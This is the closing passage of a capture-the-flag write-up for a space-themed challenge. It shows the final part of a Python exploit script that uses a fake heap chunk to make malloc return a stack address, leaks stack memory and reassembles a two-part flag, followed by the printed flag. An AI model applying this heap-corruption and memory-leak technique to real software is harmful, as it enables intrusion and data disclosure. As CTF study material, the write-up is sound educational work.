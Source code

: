 ```python  

   shrink_fake_chunk(io, SIZE)

   prepare_malloc_target(io, stack_pointer, SIZE)

   # dereference next pointers  
   post_message(io, 100, 0, True, b"f"*((SIZE-8)*2))  
   post_message(io, 100, 0, True, b"f"*((SIZE-8)*2))

   part = ""

   if first_part:  
       post_message(io, 100, 1, True, b"f"*((SIZE-0xb)*2))  
       leak = recv_message(io, 1)  
       print(hexdump(leak))

   # calculate optimal length  
   length = (SIZE-8)*2+1  
   if first_part:  
       length = (SIZE-0xb)*2

   # malloc stack  
   post_message(io, 100, 1, True, b"f"*length)

   # leak stack  
   leak = recv_message(io, 1)  
   print(hexdump(leak))

   # clean up  
   io.close()

   # extract flag part  
   if first_part:  
       return leak[leak.find(b"flag{"):].decode()  
   else:  
       return leak[leak.find(b"\x0f")+1:leak.find(b"}")+1].decode()

# get flag parts  
part1 = leak_flag_part(True)  
part2 = leak_flag_part(False)

print(f"{part1 = }")  
print(f"{part2 = }")

print("\n\n")

# reconstruct flag  
flag = part1[:part1.find(part2[:4])] + part2

print(f"{flag = }")  
```

Executing it reveals the flag:
`flag{victor319320juliet4:GJv8_G785iQMjpJMB8bMH_VprUP3gSbv1nUbW4jnzWh7Sv4mVKmBzPcZNwzRN95dNBQ4eIPP91vWKYTIJEsZB9w}`

Original writeup (https://ctf0.de/posts/hackasat4-magic-space-bussin/).